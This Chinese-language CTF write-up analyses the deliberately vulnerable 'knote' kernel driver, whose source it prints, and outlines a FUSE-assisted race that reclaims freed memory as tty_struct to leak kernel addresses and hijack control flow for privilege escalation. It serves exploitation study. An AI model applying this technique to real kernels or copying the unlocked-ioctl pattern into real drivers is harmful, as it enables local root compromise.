# 【pwn4kernel】Kernel FUSE技术分析

## 1. 测试环境

**测试版本**：Linux-5.3.6 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.3.6/02/bzImage)

笔者测试的内核版本是 `Linux ubuntu 5.3.6 #1 SMP Sun Feb 1 10:40:04 CST 2026 x86_64 x86_64 x86_64 GNU/Linux`。

**编译选项**：开启`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_INIT_ON_FREE_DEFAULT_ON`、`CONFIG_DEBUG_LIST`、`CONFIG_DEBUG_PLIST`、`CONFIG_STATIC_USERMODEHELPER`、`CONFIG_FUSE_FS`、`CONFIG_USERFAULTFD`、`CONFIG_SLAB_MERGE_DEFAULT`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.3.6/02/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：本程序源自 **D^3CTF2019 - knote** 内核挑战，其核心漏洞源于读写锁的误用：其中ADD_CHUNK与DELETE_CHUNK指令正确使用了读写锁保护，而GET_CHUNK与EDIT_CHUNK指令则缺乏相应的锁机制，从而引入了条件竞争的可能。进一步观察发现，GET_CHUNK指令通过copy_to_user进行数据拷贝，EDIT_CHUNK指令则依赖copy_from_user；虽然userfaultfd技术可用于延长竞争窗口，但本文重点探讨基于FUSE技术的利用方法。为增加技术复杂性，内核中已启用包括`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_INIT_ON_FREE_DEFAULT_ON`、`CONFIG_DEBUG_LIST`、`CONFIG_DEBUG_PLIST`在内的多项保护机制。利用流程主要包括以下几个阶段：首先，通过ADD_CHUNK指令申请与tty_struct结构大小相同的内存块，选取该结构是因其所用标志与本驱动一致；随后，调用GET_CHUNK指令读取该内存区域内容，并将copy_to_user的目标指针指向FUSE文件系统中某文件的匿名映射，从而在执行拷贝时触发预先注册的FUSE文件回调函数，致使GET_CHUNK在copy_to_user处阻塞；此时，利用DELETE_CHUNK指令释放该内存，并立即通过open("/dev/ptmx", O_RDWR)申请tty_struct结构体，由于内核为提升内存分配效率，会将刚释放的内存块置于当前CPU的freelist列表中且采用后进先出（LIFO）策略，因此同样大小的内存申请有较高概率重用方才释放的块；之后恢复FUSE回调，即可读取到新分配的tty_struct内容，从而获取内核与堆地址信息。继而，通过close(tty_fd)释放该tty_struct，再次使用ADD_CHUNK申请同等大小的内存，并调用EDIT_CHUNK指令尝试修改该内存区域，将其copy_from_user的源指针设为另一FUSE文件的匿名映射，同时在FUSE的read回调中预设伪造的tty_struct数据；当EDIT_CHUNK执行至copy_from_user时，会再次因FUSE回调而阻塞，此时利用DELETE_CHUNK释放内存后立即重新open("/dev/ptmx", O_RDWR)申请tty_struct，待恢复FUSE回调后，即能成功修改该结构体内容，最终通过触发预先布置的ROP链执行权限提升操作，从而完成整个利用过程。

驱动源码如下：

```c
/**
 * Copyright (c) 2026 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on D^3CTF 2019 - knote
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/export.h>
#include <linux/fs.h>
#include <linux/gfp.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/printk.h>
#include <linux/ptrace.h>
#include <linux/rwlock.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <linux/version.h>

#define ADD_CHUNK 0x1337
#define GET_CHUNK 0x2333
#define DELETE_CHUNK 0x6666
#define EDIT_CHUNK 0x8888

struct chunk_t {
	union {
		size_t size;
		size_t idx;
	};
	void *buf;
};

static struct chunk_t chunks[9] = { 0 };

static size_t in_use = 0;
static rwlock_t kstack_rwlock;

static unsigned int major;
static struct class *knote_class;
static struct cdev knote_cdev;

static int knote_open(struct inode *inode, struct file *filp)
{
	int ret = 0;
	pr_info("[knote:] Device open.\n");
	write_lock(&kstack_rwlock);
	if (in_use) {
		pr_info("[knote:] occupied by others, try later.\n");
		ret = -EFAULT;
	}
	in_use = 1;
	write_unlock(&kstack_rwlock);
	return ret;
}

static int knote_release(struct inode *inode, struct file *filp)
{
	int i = 0;
	for (i = 0; i < 9; i++) {
		if (chunks[i].buf) {
			kfree(chunks[i].buf);
		}
	}
	in_use = 0;
	pr_info("[knote:] Device release.\n");
	return 0;
}

static long knote_ioctl(struct file *file, unsigned int cmd, unsigned long arg)
{
	struct chunk_t chunk = { 0 };
	if (copy_from_user(&chunk, (void *)arg, sizeof(struct chunk_t))) {
		pr_info("[knote:] Error copy data ptr from user.\n");
		return -EFAULT;
	}
	if (in_use > 9) {
		pr_info("[knote:] please don't occupy knote too longer.\n");
		return -EFAULT;
	}
	in_use++;

	if (cmd == ADD_CHUNK) {
		int i = 0;
		void *buf = NULL;
		read_lock(&kstack_rwlock);
		for (i = 0; i < 9; i++) {
			if (!chunks[i].buf) {
				break;
			}
		}
		read_unlock(&kstack_rwlock);
		if (i >= 9) {
			pr_info("[knote:] chunks is full.\n");
			return -EFAULT;
		}

		if (chunk.size >= 0x1000) {
			pr_info("[knote:] too large.\n");
			return -EFAULT;
		}

		write_lock(&kstack_rwlock);
		buf = kmalloc(chunk.size, GFP_KERNEL);
		if (!buf) {
			write_unlock(&kstack_rwlock);
			pr_info("[knote:] Out of memory.\n");
			return -EFAULT;
		}
		chunks[i].buf = buf;
		chunks[i].size = chunk.size;
		write_unlock(&kstack_rwlock);
		pr_info("[knote:] new note created.\n");
	} else if (cmd == GET_CHUNK) {
		if (chunk.idx > 9) {
			pr_info("[knote:] index out of range.\n");
			return -EFAULT;
		}
		if (!chunks[chunk.idx].buf) {
			pr_info("[knote:] no such note.\n");
			return -EFAULT;
		}
		if (copy_to_user(chunk.buf, chunks[chunk.idx].buf,
				 chunks[chunk.idx].size)) {
			pr_info("[knote:] Error copy data to user.\n");
			return -EFAULT;
		}
	} else if (cmd == DELETE_CHUNK) {
		if (chunk.idx > 9) {
			pr_info("[knote:] index out of range.\n");
			return -EFAULT;
		}
		write_lock(&kstack_rwlock);
		if (!chunks[chunk.idx].buf) {
			write_unlock(&kstack_rwlock);
			pr_info("[knote:] no such note.\n");
			return -EFAULT;
		}
		kfree(chunks[chunk.idx].buf);
		chunks[chunk.idx].buf = NULL;
		chunks[chunk.idx].size = 0;
		write_unlock(&kstack_rwlock);
	} else if (cmd == EDIT_CHUNK) {
		if (chunk.idx > 9) {
			pr_info("[knote:] index out of range.\n");
			return -EFAULT;
		}
		if (!chunks[chunk.idx].buf) {
			pr_info("[knote:] no such note.\n");
			return -EFAULT;
		}
		if (copy_from_user(chunks[chunk.idx].buf, chunk.buf,
				   chunks[chunk.idx].size)) {
			pr_info("[knote:] Error copy data from user.\n");
			return -EFAULT;
		}
	} else {
		pr_info("[knote:] Unknown ioctl cmd!\n");
		return -EINVAL;
	}
	return 0;
}

struct file_operations knote_fops = {
	.owner = THIS_MODULE,
	.open = knote_open,
	.release = knote_release,
	.unlocked_ioctl = knote_ioctl,
};

static char *knote_devnode(struct device *dev, umode_t *mode)
{
	if (mode)
		*mode = 0666;
	return NULL;
}

static int __init init_knote(void)
{
	struct device *knote_device;
	int error;
	dev_t devt = 0;

	error = alloc_chrdev_region(&devt, 0, 1, "knote");
	if (error < 0) {
		pr_err("[knote:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[knote:] knote major number = %d.\n", major);

	knote_class = class_create(THIS_MODULE, "knote_class");
	if (IS_ERR(knote_class)) {
		pr_err("[knote:] Error creating knote class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(knote_class);
	}
	knote_class->devnode = knote_devnode;

	cdev_init(&knote_cdev, &knote_fops);
	knote_cdev.owner = THIS_MODULE;
	cdev_add(&knote_cdev, devt, 1);
	knote_device = device_create(knote_class, NULL, devt, NULL, "knote");
	if (IS_ERR(knote_device)) {
		pr_err("[knote:] Error creating knote device!\n");
		class_destroy(knote_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	rwlock_init(&kstack_rwlock);
	pr_info("[knote:] knote module loaded.\n");
	return 0;
}

static void __exit exit_knote(void)
{
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(knote_class, MKDEV(major, 0));
	cdev_del(&knote_cdev);
	class_destroy(knote_class);
	pr_info("[knote:] knote module unloaded.\n");
}

module_init(init_knote);
module_exit(exit_knote);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

### 2-1. 驱动程序架构与漏洞分析

#### 2-1-1. 模块整体架构设计

knote驱动程序实现了一个简化的内核内存块管理模块，其核心功能是通过字符设备接口`/dev/knote`向用户空间提供有限的内存块管理能力。驱动程序采用标准的Linux内核模块架构，包含设备注册、文件操作接口、资源管理等标准组件，并提供了四个基本的IOCTL命令供用户空间调用。

驱动程序的核心是通过一个全局的`chunks`数组（最多9个元素）来管理内存块，每个元素包含`size`和`buf`（指向实际分配的内核内存）两个关键字段。模块通过`in_use`计数器实现简单的设备互斥访问控制（同一时间只允许一个进程打开设备），并通过读写锁`kstack_rwlock`来保护对`chunks`数组的并发访问。然而，其锁保护策略的应用存在根本性不一致，导致了严重的竞态条件漏洞。

#### 2-1-2. 核心数据结构与状态管理

驱动程序通过`chunk_t`结构体管理每个内存块，其定义采用了联合体以节省空间，但这也引入了轻微的模糊性：

```c
struct chunk_t {
    union {
        size_t size;  // 内存块大小
        size_t idx;   // 内存块索引
    };
    void *buf;        // 指向分配的内核内存
};
static struct chunk_t chunks[9] = { 0 };
```

驱动程序定义了四个IOCTL命令与用户空间交互：

```c
#define ADD_CHUNK 0x1337     // 分配内存块
#define GET_CHUNK 0x2333     // 读取内存块内容
#define DELETE_CHUNK 0x6666  // 删除内存块
#define EDIT_CHUNK 0x8888    // 编辑内存块内容
```

关键的同步机制包括：

1.  **`in_use`计数器**：在`knote_open`和`knote_release`中管理，确保设备同一时间只被一个进程使用。每次IOCTL调用也会递增此计数器，每个文件描述符最多允许9次调用，这构成了严格的操作次数限制。
2.  **读写锁`kstack_rwlock`**：用于保护对`chunks`数组的并发访问。**漏洞的核心根源在于此锁的应用不一致**。

#### 2-1-3. 内存操作流程分析

驱动程序的四个命令在执行流程和锁保护上存在显著差异。下面分别为每个命令提供详细的流程图：

**ADD_CHUNK (分配)流程**：
此流程锁保护完整，包括获取读锁查找空闲槽位、释放读锁、获取写锁分配内存、更新数组、释放写锁。


```mermaid
flowchart TD
    A[开始ADD_CHUNK操作] --> B[验证请求大小≤0x1000]
    B --> C[获取读锁read_lock]
    C --> D[遍历chunks数组查找空闲槽位]
    D --> E[释放读锁]
    E --> F[获取写锁write_lock]
    F --> G[调用kmalloc分配内存]
    G --> H[更新chunks数组设置buf和size]
    H --> I[释放写锁write_unlock]
    I --> J[返回成功]

    B -- 大小无效 --> K[返回错误]
    D -- 无空闲槽位 --> L[返回错误]
    G -- 分配失败 --> M[释放写锁并返回错误]

    style C fill:#e3f2fd
    style F fill:#e3f2fd
    style I fill:#e3f2fd
```

**DELETE_CHUNK (释放)流程**：
此流程同样有完整的锁保护，确保释放操作的原子性。


```mermaid
flowchart TD
    A[开始DELETE_CHUNK操作] --> B[验证索引范围0-8]
    B --> C[获取写锁write_lock]
    C --> D["检查chunks[idx].buf ≠ NULL"]
    D --> E[调用kfree释放内存]
    E --> F["设置chunks[idx].buf = NULL"]
    F --> G["设置chunks[idx].size = 0"]
    G --> H[释放写锁write_unlock]
    H --> I[返回成功]

    B -- 索引无效 --> J[返回错误]
    D -- buf为NULL --> K[释放写锁并返回错误]

    style C fill:#e3f2fd
    style H fill:#e3f2fd
```

**GET_CHUNK (读取)流程 (存在漏洞)**：
此流程完全无锁保护，形成了TOCTOU竞态条件漏洞。


```mermaid
flowchart TD
    A[开始GET_CHUNK操作] --> B[验证索引范围0-8<br>⚠️ 无锁检查]
    B --> C["检查chunks[idx].buf ≠ NULL"<br>⚠️ 无锁检查]
    C --> D[调用copy_to_user读取内存<br>⚠️ 无锁操作]
    D --> E[返回成功]

    B -- 索引无效 --> F[返回错误]
    C -- buf为NULL --> G[返回错误]
    D -- 拷贝失败 --> H[返回错误]

    style B stroke:#f44336,stroke-width:3px
    style C stroke:#f44336,stroke-width:3px
    style D stroke:#f44336,stroke-width:3px
```

**EDIT_CHUNK (修改)流程 (存在漏洞)**：
此流程同样完全无锁保护，形成了与GET_CHUNK对称的竞态条件漏洞。


```mermaid
flowchart TD
    A[开始EDIT_CHUNK操作] --> B[验证索引范围0-8<br>⚠️ 无锁检查]
    B --> C["检查chunks[idx].buf ≠ NULL"<br>⚠️ 无锁检查]
    C --> D[调用copy_from_user写入内存<br>⚠️ 无锁操作]
    D --> E[返回成功]

    B -- 索引无效 --> F[返回错误]
    C -- buf为NULL --> G[返回错误]
    D -- 拷贝失败 --> H[返回错误]

    style B stroke:#f44336,stroke-width:3px
    style C stroke:#f44336,stroke-width:3px
    style D stroke:#f44336,stroke-width:3px
```

#### 2-1-4. 漏洞核心原因

**漏洞的根本原因是同步策略的不一致**。错误地将`ADD_CHUNK`和`DELETE_CHUNK`归类为会修改`chunks`数组结构的"写操作"，因此使用了写锁。而将`GET_CHUNK`和`EDIT_CHUNK`错误地归类为仅读取或修改内存内容的"操作"，认为它们不需要锁保护。

**这是根本性的设计错误**。`GET_CHUNK`和`EDIT_CHUNK`虽然不改变`chunks`数组的"结构"（不增加或删除元素），但它们**读取`chunks`数组元素中的`buf`指针和`size`字段**，并基于这些值进行后续操作。这两个字段是**共享的可变状态**，可能被`DELETE_CHUNK`并发修改。对它们的任何访问都必须同步。

这导致了典型的**TOCTOU (Time-Of-Check-Time-Of-Use) 竞态条件**。其通用的漏洞模式如下：

```c
if (!chunks[chunk.idx].buf) {  // 检查时间
    return -EFAULT;
}
// 竞态窗口：其他线程（如执行DELETE_CHUNK）可在此处修改chunks数组状态
if (copy_to/from_user(...)) {  // 使用时间
    return -EFAULT;
}
```

下面将分别对`GET_CHUNK`和`EDIT_CHUNK`两个命令的漏洞进行深入的形式化分析与状态描述。

#### 2-1-5. GET_CHUNK漏洞的数学形式化描述

**系统状态定义**：
设针对特定内存块索引的系统状态为四元组 $$(S, P, C, T)$$，其中：

- $$S$$：内存块状态，$$S \in \{\text{A}, \text{F}, \text{I}\}$$（A=已分配，F=已释放，I=无效）
- $$P$$：内存指针值，$$P \in \{\text{NULL}, \text{VALID}\}$$
- $$C$$：检查状态，$$C \in \{0, 1\}$$（0=未检查，1=已通过检查）
- $$T$$：时间戳，表示操作执行的时间点

**GET_CHUNK操作的状态转移**：
`GET_CHUNK`操作可分解为三个顺序执行的阶段：

1. **检查阶段** $$(t_1)$$：

    $$
    \text{Check}: (S, P, 0, t_0) \xrightarrow{\text{if } P \neq \text{NULL}} (S, P, 1, t_1)
    $$

2. **竞态窗口** $$(t_1, t_2)$$：

    $$
    \text{Gap}: (S, P, 1, t_1) \rightarrow (S, P, 1, t_2)
    $$

    在此时间窗口内，状态$$(S, P)$$可能被其他线程（执行`DELETE_CHUNK`）改变。

3. **使用阶段** $$(t_2)$$：
    $$
    \text{Use}: (S, P, 1, t_2) \xrightarrow{\text{copy_to_user}} (S, P, 0, t_3)
    $$

**漏洞触发条件**：
设`DELETE_CHUNK`操作在时间 $$t_d$$ 执行，其操作为释放内存并将指针置空：

$$
\text{Delete}: (\text{A}, \text{VALID}, C, t_d) \rightarrow (\text{F}, \text{NULL}, 0, t_{d+1})
$$

`GET_CHUNK`漏洞发生的**充分必要条件**为：

$$
t_1 < t_d < t_2
$$

即`DELETE_CHUNK`必须在`GET_CHUNK`检查之后、使用之前执行。当此条件满足时，`copy_to_user`的源地址`P`在$$t_2$$时刻已是一个**悬垂指针**，指向已被释放的内存，导致**释放后使用(Use-After-Free, UAF)**。

**漏洞的形式化证明**：
定义谓词 $$\text{VulnGet}(G, D)$$ 表示GET_CHUNK操作 $$G$$ 和DELETE_CHUNK操作 $$D$$ 之间存在漏洞，则：

$$
\text{VulnGet}(G, D) \iff \exists t_1, t_2, t_d \cdot (\text{Check}_G(t_1) \land \text{Use}_G(t_2) \land \text{Delete}_D(t_d) \land t_1 < t_d < t_2)
$$

**内存状态的时间演化示例**：
设初始状态为 $$(\text{A}, p, 0, 0)$$，其中 $$p \neq \text{NULL}$$。漏洞触发的时间线如下：

$$
\begin{aligned}
&t=0: & (\text{A}, p, 0, 0) &\quad \text{初始状态：内存已分配} \\
&t=t_1: & \text{GET检查通过} \rightarrow (\text{A}, p, 1, t_1) &\quad \text{GET_CHUNK确认指针有效} \\
&t=t_d: & \text{DELETE执行} \rightarrow (\text{F}, \text{NULL}, 0, t_d) &\quad \text{DELETE_CHUNK释放内存} \\
&t=t_2: & \text{GET使用} \rightarrow \text{错误：UAF} &\quad \text{GET_CHUNK读取已释放内存}
\end{aligned}
$$

#### 2-1-6. EDIT_CHUNK漏洞的数学形式化描述

`EDIT_CHUNK`漏洞与`GET_CHUNK`具有对称的模式，但导致的后果不同。

**EDIT_CHUNK操作的状态转移**：
`EDIT_CHUNK`操作同样可分解为三个阶段：

1. **检查阶段** $$(t_1)$$：

    $$
    \text{Check}: (S, P, 0, t_0) \xrightarrow{\text{if } P \neq \text{NULL}} (S, P, 1, t_1)
    $$

2. **竞态窗口** $$(t_1, t_2)$$：

    $$
    \text{Gap}: (S, P, 1, t_1) \rightarrow (S, P, 1, t_2)
    $$

3. **使用阶段** $$(t_2)$$：

    $$
    \text{Use}: (S, P, 1, t_2) \xrightarrow{\text{copy_from_user}} (S, P, 0, t_3)
    $$

**EDIT_CHUNK漏洞的特性**：
与`GET_CHUNK`的"读取"操作不同，`EDIT_CHUNK`是"写入"操作。漏洞触发时，`copy_from_user`会向已释放的内存地址写入用户控制的数据。这可能导致两种后果：

1.  **内存污染**：向空闲内存写入数据，破坏内存管理器的元数据或干扰其他对象。
2.  **对象篡改**：如果该内存已被其他内核对象重用，则可能修改该对象的关键字段，为后续操作创造条件。

**漏洞触发条件**：
`EDIT_CHUNK`漏洞发生的充分必要条件与`GET_CHUNK`相同：

$$
t_1 < t_d < t_2
$$

其中 $$t_d$$ 是`DELETE_CHUNK`执行的时间。

**漏洞的形式化证明**：
定义谓词 $$\text{VulnEdit}(E, D)$$ 表示EDIT_CHUNK操作 $$E$$ 和DELETE_CHUNK操作 $$D$$ 之间存在漏洞，则：

$$
\text{VulnEdit}(E, D) \iff \exists t_1, t_2, t_d \cdot (\text{Check}_E(t_1) \land \text{Use}_E(t_2) \land \text{Delete}_D(t_d) \land t_1 < t_d < t_2)
$$

**内存状态的时间演化示例**：

$$
\begin{aligned}
&t=0: & (\text{A}, p, 0, 0) \\
&t=t_1: & \text{EDIT检查通过} \rightarrow (\text{A}, p, 1, t_1) \\
&t=t_d: & \text{DELETE执行} \rightarrow (\text{F}, \text{NULL}, 0, t_d) \\
&t=t_2: & \text{EDIT使用} \rightarrow \text{错误：向已释放内存写入数据}
\end{aligned}
$$

#### 2-1-7. GET_CHUNK漏洞触发过程的并发时序展示

`GET_CHUNK`漏洞的触发过程展示了典型的TOCTOU竞态条件模式：


```mermaid
sequenceDiagram
    participant 线程A as 线程A(GET_CHUNK)
    participant 驱动程序 as 驱动程序
    participant 内核内存 as 内核内存
    participant 线程B as 线程B(DELETE_CHUNK)

    Note over 线程A,驱动程序: GET_CHUNK检查阶段
    线程A->>驱动程序: ioctl(GET_CHUNK, idx)
    驱动程序->>驱动程序: 验证idx范围
    驱动程序->>驱动程序: 检查chunks[idx].buf ≠ NULL
    驱动程序-->>线程A: 检查通过 (状态C=1)

    Note over 线程B,驱动程序: DELETE_CHUNK执行阶段
    线程B->>驱动程序: ioctl(DELETE_CHUNK, idx)
    驱动程序->>驱动程序: 获取写锁
    驱动程序->>驱动程序: 检查chunks[idx].buf ≠ NULL
    驱动程序->>内核内存: kfree(chunks[idx].buf)
    驱动程序->>驱动程序: chunks[idx].buf = NULL
    驱动程序->>驱动程序: 释放写锁
    驱动程序-->>线程B: 释放成功 (状态S=F, P=NULL)

    Note over 线程A,驱动程序: GET_CHUNK使用阶段
    线程A->>驱动程序: copy_to_user读取内存
    驱动程序->>内核内存: 访问已释放内存
    驱动程序-->>线程A: 💥 触发释放后使用(UAF)

    Note right of 驱动程序: GET_CHUNK漏洞核心
    Note right of 驱动程序: 检查指针有效后，使用指针前
    Note right of 驱动程序: DELETE_CHUNK释放了内存
```

#### 2-1-8. EDIT_CHUNK漏洞触发过程的并发时序展示

`EDIT_CHUNK`漏洞的触发过程与GET_CHUNK对称，但执行写入操作：


```mermaid
sequenceDiagram
    participant 线程A as 线程A(EDIT_CHUNK)
    participant 驱动程序 as 驱动程序
    participant 内核内存 as 内核内存
    participant 线程B as 线程B(DELETE_CHUNK)

    Note over 线程A,驱动程序: EDIT_CHUNK检查阶段
    线程A->>驱动程序: ioctl(EDIT_CHUNK, idx)
    驱动程序->>驱动程序: 验证idx范围
    驱动程序->>驱动程序: 检查chunks[idx].buf ≠ NULL
    驱动程序-->>线程A: 检查通过 (状态C=1)

    Note over 线程B,驱动程序: DELETE_CHUNK执行阶段
    线程B->>驱动程序: ioctl(DELETE_CHUNK, idx)
    驱动程序->>驱动程序: 获取写锁
    驱动程序->>驱动程序: 检查chunks[idx].buf ≠ NULL
    驱动程序->>内核内存: kfree(chunks[idx].buf)
    驱动程序->>驱动程序: chunks[idx].buf = NULL
    驱动程序->>驱动程序: 释放写锁
    驱动程序-->>线程B: 释放成功 (状态S=F, P=NULL)

    Note over 线程A,驱动程序: EDIT_CHUNK使用阶段
    线程A->>驱动程序: copy_from_user写入内存
    驱动程序->>内核内存: 向已释放内存写入数据
    驱动程序-->>线程A: 💥 触发内存污染/对象篡改

    Note right of 驱动程序: EDIT_CHUNK漏洞核心
    Note right of 驱动程序: 检查指针有效后，使用指针前
    Note right of 驱动程序: DELETE_CHUNK释放了内存
```

**技术总结**：`GET_CHUNK`和`EDIT_CHUNK`命令的漏洞根源完全相同，即**在检查共享状态（指针有效性）与使用该状态（解引用指针）之间缺乏原子性保护**。这为并发执行的`DELETE_CHUNK`命令提供了一个时间窗口，使其能够修改该共享状态，导致后续使用时的前提假设（指针有效）被破坏，从而触发释放后使用漏洞。两者共同构成了该驱动程序的竞态条件安全缺陷。

### 2-2. 漏洞验证技术流程

#### 2-2-1. 技术验证总览

基于上述竞态条件漏洞，可以构建一个多阶段的验证流程，以演示该漏洞在特定条件下（如启用`CONFIG_INIT_ON_FREE`、单个文件描述符IOCTL调用次数受限等）可能造成的安全影响。整个过程遵循严谨的测试方法，旨在验证漏洞的可触发性及其潜在影响。

验证流程需要克服以下核心挑战：

1.  **竞态窗口极短**：默认情况下检查与使用之间的窗口仅纳秒级，难以可靠触发。
2.  **安全机制限制**：内核启用`CONFIG_INIT_ON_FREE`（释放时清零内存）、KASLR、SMAP/SMEP等保护。
3.  **资源限制**：单个设备文件描述符最多只能进行9次IOCTL调用。

验证的核心思路是利用**FUSE (Filesystem in Userspace)** 技术来可靠地扩展竞态窗口，并利用内核SLAB分配器的LIFO（后进先出）行为实现可控的内存重用。

#### 2-2-2. GET_CHUNK漏洞验证细节

GET_CHUNK漏洞允许在检查通过后、实际读取内存前，通过并发操作使目标内存被释放并被其他对象重用，从而读取到新对象的内容。这一漏洞可被用于信息泄露，特别是泄露内核地址信息。

**信息泄露的序列图**：


```mermaid
sequenceDiagram
    participant P as 用户进程
    participant D as 驱动程序
    participant F as FUSE系统
    participant S as SLAB分配器
    participant K as 内核对象

    Note over P,D: 阶段1: 启动GET_CHUNK
    P->>D: ioctl(GET_CHUNK, idx=0)
    D->>D: 检查chunks[0].buf ≠ NULL
    D->>F: copy_to_user(目标=FUSE映射)

    Note over F: 触发页面异常，阻塞GET_CHUNK
    F-->>P: 发送同步信号

    Note over P,D: 阶段2: 并发执行DELETE_CHUNK
    P->>D: ioctl(DELETE_CHUNK, idx=0)
    D->>D: 获取写锁
    D->>S: kfree(chunks[0].buf)
    D->>D: chunks[0].buf = NULL
    D->>D: 释放写锁

    Note over P,K: 阶段3: 分配tty_struct
    P->>K: open("/dev/ptmx")
    K->>S: 分配tty_struct(0x2c0)
    S-->>K: 返回重用内存地址

    Note over F: 阶段4: 恢复FUSE操作
    F-->>D: 完成页面访问

    Note over D,K: 阶段5: 读取tty_struct数据
    D->>K: 读取tty_struct内容
    D-->>P: 返回tty_struct数据

    Note right of P: ✅ 信息泄露成功
    Note right of P: 获得内核地址信息
```

**验证步骤详解**：

1. **内存布局建立**：通过ADD_CHUNK分配与tty_struct大小相同的内存块。
2. **FUSE映射设置**：将用户空间内存区域映射到FUSE文件，用于后续控制copy_to_user的阻塞时机。
3. **竞态触发**：调用GET_CHUNK读取内存，目标地址指向FUSE映射。当内核访问该映射时，触发页面异常，FUSE回调函数被调用，在此处主动阻塞。
4. **内存状态变更**：在GET_CHUNK阻塞期间，另一个线程调用DELETE_CHUNK释放目标内存。
5. **内存重用**：立即通过open("/dev/ptmx")分配tty_struct。由于SLAB分配器的LIFO特性，新分配的tty_struct很可能重用刚刚释放的内存。
6. **信息获取**：恢复FUSE阻塞，GET_CHUNK继续执行，此时读取的是tty_struct的内容而非原始内存块。通过解析tty_struct中的ops等指针，可获取内核地址信息。

#### 2-2-3. EDIT_CHUNK漏洞验证细节

EDIT_CHUNK漏洞允许在检查通过后、实际写入内存前，通过并发操作使目标内存被释放并被其他对象重用，从而将用户数据写入新对象。这一漏洞可被用于篡改内核数据结构的关键字段。

**内存写入的序列图**：


```mermaid
sequenceDiagram
    participant P as 用户进程
    participant D as 驱动程序
    participant F as FUSE系统
    participant S as SLAB分配器
    participant K as 内核对象

    Note over P,D: 阶段1: 启动EDIT_CHUNK
    P->>D: ioctl(EDIT_CHUNK, idx=0)
    D->>D: 检查chunks[0].buf ≠ NULL
    D->>F: copy_from_user(源=FUSE映射)

    Note over F: 触发页面异常，阻塞EDIT_CHUNK
    F-->>P: 发送同步信号

    Note over P,D: 阶段2: 并发执行DELETE_CHUNK
    P->>D: ioctl(DELETE_CHUNK, idx=0)
    D->>D: 获取写锁
    D->>S: kfree(chunks[0].buf)
    D->>D: chunks[0].buf = NULL
    D->>D: 释放写锁

    Note over P,K: 阶段3: 分配tty_struct
    P->>K: open("/dev/ptmx")
    K->>S: 分配tty_struct(0x2c0)
    S-->>K: 返回重用内存地址

    Note over K: 阶段4: tty_struct初始化
    K->>K: 初始化tty_struct字段

    Note over F: 阶段5: 恢复FUSE操作
    Note over K: 💥 竞态窗口: 初始化未完成
    F-->>D: 完成页面访问

    Note over D,K: 阶段6: 写入伪造数据
    D->>K: 写入伪造tty_struct数据
    D-->>P: 返回写入成功

    Note right of P: ✅ 内存篡改成功
    Note right of P: tty_struct关键字段被修改
```

**验证步骤详解**：

1. **数据准备**：基于GET_CHUNK阶段获取的内核地址信息，构造伪造的tty_struct数据，其中关键字段如ops指针被修改为指向特定地址，ioctl函数指针被设置为特定代码地址。
2. **FUSE映射设置**：建立新的FUSE映射，用于提供伪造的tty_struct数据。
3. **竞态触发**：调用EDIT_CHUNK写入内存，源地址指向FUSE映射。当内核访问该映射时，触发页面异常，FUSE回调函数被调用并阻塞。
4. **内存状态变更**：在EDIT_CHUNK阻塞期间，另一个线程调用DELETE_CHUNK释放目标内存。
5. **内存重用**：立即通过open("/dev/ptmx")分配新的tty_struct，期望其重用刚刚释放的内存。
6. **数据写入**：恢复FUSE阻塞，EDIT_CHUNK继续执行，将伪造的tty_struct数据写入新分配的tty_struct中。由于写入时机控制在tty_struct初始化完成前，可以成功覆盖其关键字段。

#### 2-2-4. 完整验证链的整合

GET_CHUNK和EDIT_CHUNK漏洞的结合使用，构成了一个完整的技术验证链。这两个漏洞的触发都依赖于相同的竞态条件模式，但在验证链中扮演不同的角色：

1. **GET_CHUNK**：用于**信息泄露**，获取内核地址信息，为后续操作提供必要的基础数据。
2. **EDIT_CHUNK**：用于**内存篡改**，基于GET_CHUNK泄露的信息，构造并写入伪造数据，修改关键数据结构。

**完整的验证序列流程图**：


```mermaid
flowchart TD
    Start[开始完整验证链] --> Step1[步骤1: 环境初始化<br>CPU绑定/保存寄存器状态/打开设备]

    Step1 --> Step2[步骤2: 堆布局建立<br>ADD_CHUNK分配0x2c0字节内存]

    Step2 --> Step3[步骤3: GET_CHUNK信息泄露<br>触发竞态读取tty_struct]

    Step3 --> Step4[步骤4: 解析内核地址<br>从tty_struct获取ops指针/计算基址]

    Step4 --> Step5[步骤5: 内存状态重置<br>关闭tty/重新ADD_CHUNK分配内存]

    Step5 --> Step6[步骤6: 构造伪造数据<br>基于泄露地址构建伪造tty_struct]

    Step6 --> Step7[步骤7: EDIT_CHUNK内存篡改<br>触发竞态写入伪造数据]

    Step7 --> Step8[步骤8: 触发验证<br>操作被篡改tty验证控制流影响]

    Step8 --> End[验证链完成]

    style Start fill:#e8f5e9
    style End fill:#e8f5e9
    style Step3 fill:#fff3e0
    style Step7 fill:#f3e5f5
```

**验证链的详细步骤**：

